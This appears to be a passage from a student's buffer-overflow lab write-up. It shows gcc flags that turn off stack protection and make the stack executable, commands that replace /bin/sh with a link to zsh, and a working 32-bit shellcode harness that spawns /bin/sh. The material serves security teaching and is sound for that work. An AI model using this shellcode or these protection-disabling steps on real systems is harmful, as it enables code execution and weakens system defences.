 Use command below to disable Stack Guard when compiling a program.

```shell
gcc -fno-stack-protector example.c
```

#### 6.3 Non-Executable Stack

Use command below to choose setting your program can be or not be executable on stack.

```shell
For executable stack:
$ gcc -z execstack  -o test test.c
For non-executable stack:
$ gcc -z noexecstack  -o test test.c
```

#### 6.4 Configuring/bin/sh(Ubuntu 16.04 VM only)

Before the tasks, we need to configure /bin/sh in our virtual machine.

```shell
$ sudo rm /bin/sh$ sudo ln -s /bin/zsh /bin/sh
```



## Task 1: Running Shell code

Shell Code:

```c
#include <stdio.h>
int main() {
    char*name[2];
    name[0] = "/bin/sh";
    name[1] = NULL;
    execve(name[0], name, NULL);
}
```

**Our target is inject this shell code into the stack, and let the program run these part of code.** For convenience, we have been offered the assembly version of code above. We get a c program below:

```c
/*call_shellcode.c*/
/*You can get this program from the lab’s website*/
/*A program that launches a shell using shellcode*/
#include <stdlib.h>
#include <stdio.h>
#include <string.h>
const char code[] =
    "\x31\xc0"         /*Line 1:  xorl    %eax,%eax*/
    "\x50"             /*Line 2:  pushl   %eax*/
    "\x68""//sh"       /*Line 3:  pushl   $0x68732f2f*/
    "\x68""/bin"       /*Line 4:  pushl   $0x6e69622f*/
    "\x89\xe3"         /*Line 5:  movl    %esp,%ebx*/
    "\x50"             /*Line 6:  pushl   %eax*/
    "\x53"             /*Line 7:  pushl   %ebx*/
    "\x89\xe1"         /*Line 8:  movl    %esp,%ecx*/
    "\x99"             /*Line 9:  cdq*/
    "\xb0\x0b"         /*Line 10: movb    $0x0b,%al*/
    "\xcd\x80"         /*Line 11: int     $0x80*/
    ;
int main(int argc, char**argv){
    char buf[sizeof(code)];
    strcpy(buf, code);
    ((void(*)( ))buf)( );
}
```